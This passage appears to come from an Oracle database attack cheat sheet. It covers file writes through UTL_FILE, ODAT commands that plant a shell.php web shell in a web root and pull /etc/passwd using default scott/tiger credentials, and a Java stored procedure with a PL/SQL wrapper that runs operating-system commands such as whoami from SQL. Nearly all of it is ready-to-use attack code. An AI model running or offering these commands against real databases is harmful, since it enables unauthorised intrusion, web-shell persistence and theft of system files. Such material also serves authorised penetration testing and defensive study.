 #### File Upload via UTL_FILE
```sql
-- Check UTL_FILE_DIR parameter
SELECT value FROM v$parameter WHERE name = 'utl_file_dir';

-- Create file
DECLARE
  f UTL_FILE.FILE_TYPE;
BEGIN
  f := UTL_FILE.FOPEN('/tmp', 'test.txt', 'W');
  UTL_FILE.PUT_LINE(f, 'Test content');
  UTL_FILE.FCLOSE(f);
END;
/
```

#### ODAT File Operations
```bash
# Upload file
./odat.py utlfile -s target -d XE -U scott -P tiger --putFile /var/www/html shell.php ./shell.php

# Download file
./odat.py utlfile -s target -d XE -U scott -P tiger --getFile /etc/passwd passwd.txt

# Check file permissions
./odat.py utlfile -s target -d XE -U scott -P tiger --test-all
```

### Java Stored Procedures

#### Execute System Commands
```sql
-- Enable Java
SELECT value FROM v$parameter WHERE name = 'java_pool_size';

-- Create Java class for command execution
CREATE OR REPLACE JAVA SOURCE NAMED "CommandExec" AS
import java.io.*;
public class CommandExec {
    public static String execCmd(String cmd) {
        try {
            Process p = Runtime.getRuntime().exec(cmd);
            BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
            String line;
            StringBuilder sb = new StringBuilder();
            while ((line = br.readLine()) != null) {
                sb.append(line).append("\n");
            }
            return sb.toString();
        } catch (Exception e) {
            return e.getMessage();
        }
    }
}
/

-- Create PL/SQL wrapper
CREATE OR REPLACE FUNCTION exec_cmd(cmd VARCHAR2) RETURN VARCHAR2 AS
LANGUAGE JAVA NAME 'CommandExec.execCmd(java.lang.String) return java.lang.String';
/

-- Execute commands
SELECT exec_cmd('whoami') FROM dual;
SELECT exec_cmd('id') FROM dual;
```